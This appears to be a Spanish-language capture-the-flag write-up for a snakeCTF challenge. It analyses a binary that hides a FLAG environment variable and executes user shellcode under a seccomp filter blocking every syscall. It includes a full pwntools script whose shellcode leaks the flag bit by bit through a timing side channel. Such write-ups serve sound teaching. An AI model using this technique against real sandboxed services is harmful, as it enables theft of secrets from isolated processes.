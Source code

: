 Este ejercicio nos da un programa que imprime las variables de entorno del usuario que lo ejecute.\
El usuario que ejecuta el binario en remoto tiene la variable `FLAG=laflag`, donde está la flag que queremos conseguir. Parece que simplemente hay que ejecutar el programa y ya, pero si lo hacemos, donde debería aparecer la flag, saldrá `FLAG=... Lets not print this one...`.  Esto se debe a lo siguiente:

El programa hace el siguiente bucle:

```c
found_flag = false;
for (i = 0; envp[i] != (char *)0x0; i = i + 1) {
    check = strncmp(envp[i],"FLAG=",5);
    if (check == 0) {
        puts("FLAG=... Lets not print this one...");
        found_flag = true;
    }
    else {
        puts(envp[i]);
    }
}
if (!found_flag) {
    puts("Error: FLAG not found in environment variables");
    exit(1);
}
```

Comprueba cada línea que se imprime y, si contiene `FLAG=`, muestra otro texto en su lugar.

Si nos fijamos en cómo funciona el programa, podemos ver que, después de imprimir las variables, nos pide 2 inputs:

```c
puts("Environment Variables:");
print_env(envp);

code_len = 0;
__isoc99_scanf("%u", &code_len);

if (0x200 < code_len) {
    puts("You'd like uh");
    exit(1);
}
```

Primero nos pide un tamaño.

```c
read(0, code_buffer, (ulong)code_len);
```

Después, nos pide el contenido. Y si miramos más atrás:

```c
code_buffer = (byte *)mmap((void *)0x500000,0x200,7,0x22,-1,0);
```

La zona donde se guarda es una región de memoria con permisos de ejecución.

Aún por encima, el programa ejecuta el código de esa zona:

```c
(*(code *)code_buffer)(0,0,0,0,0,0);
```

Parece que, como tenemos el control, podemos simplemente hacer un ret2syscall. Pero el programa hace lo siguiente:

```c
seccomp_filter = seccomp_init(0);
seccomp_rule_add(seccomp_filter,0,1,0);
seccomp_rule_add(seccomp_filter,0,0,0);
seccomp_load(seccomp_filter);
seccomp_release(seccomp_filter);
```

Estos son filtros **seccomp** que limitan lo que se puede llamar. En este caso, usando la herramienta [Seccomp Tools](https://github.com/david942j/seccomp-tools) podemos ver que **todas las syscalls están bloqueadas**:

```c
line  CODE  JT  JF  K
=================================
0000: 0x20  0x00 0x00 0x00000004 A = arch
0001: 0x15  0x00 0x03 0xc000003e if (A != ARCH_X86_64) goto 0005
0002: 0x20  0x00 0x00 0x00000000 A = sys_number
0003: 0x35  0x00 0x01 0x40000000 if (A < 0x40000000) goto 0005
0004: 0x15  0x00 0x00 0xffffffff /* no-op */
0005: 0x06  0x00 0x00 0x00000000 return KILL
```

Como el programa ejecuta nuestro shellcode pero no podemos hacer ninguna syscall, la idea es **crear un ataque basado en tiempo** para filtrar bit a bit la flag usando condicionales y bucles.

Para esto necesitamos saber la dirección en memoria de la flag.\
Sabemos que en remoto la flag está en la línea 5 de las variables de entorno. Si conseguimos hacer un leak de esa misma línea en local (aunque no sea la flag real), podremos calcular el offset necesario para acceder a ella en remoto. Con GDB se puede obtener ese offset comparando con `rbp`.

El resto es implementar un shellcode que lea cada byte y nos permita reconstruir la flag caracter a caracter.

```python
#!/usr/bin/env python3

from pwn import *
import time

exe = ELF("./chall")

context.binary = exe
context.terminal = ["kitty"]
context.log_level = 'error'
gdbscript = """
b *0x401471
c
"""

def get_bit(offset, bit):
    p = process(exe.path)
    #p = gdb.debug(exe.path, gdbscript)

    shellcode = asm(f'''
        mov rdi, [rbp + 0x150]
        xor rax, rax
        xor rbx, rbx

        mov al, byte ptr [rdi + {offset}]
        mov bl, {1 << bit}
        and al, bl

        imul rax, 0x20000000
    loop_start:
        cmp rax, r11
        je loop_finished
        inc r11
        imul ebx, 0x13
        jmp loop_start
    loop_finished:
        syscall
    ''', arch='amd64')
    
    p.recv(timeout=0.2)
    p.sendline(str(len(shellcode)).encode())
    p.send(shellcode)
    start_time = time.time()

    try:
        p.recvall(timeout=2)
    except EOFError:
        pass
    now = time.time()
    diff = now - start_time
    print(diff)

    if diff > 0.5:
        return 1
    else:
        return 0

flag = ''
offset = 0
while '}' not in flag:
    bits = []
    for i in range(8):
        bits.append(get_bit(offset, i))

    byte_completo = 0
    for bit in reversed(bits):
        byte_completo = (byte_completo << 1) | bit

    flag += chr(byte_completo)
    print(f"Flag parcial: {flag}")
    offset += 1

print(f"Flag final: {flag}")
```

```bash
$ python3 solve.py
Flag parcial: s
Flag parcial: sn
Flag parcial: sna
Flag parcial: snak
Flag parcial: snake
. . .
Flag final: snakeCTF{SECRET}
```

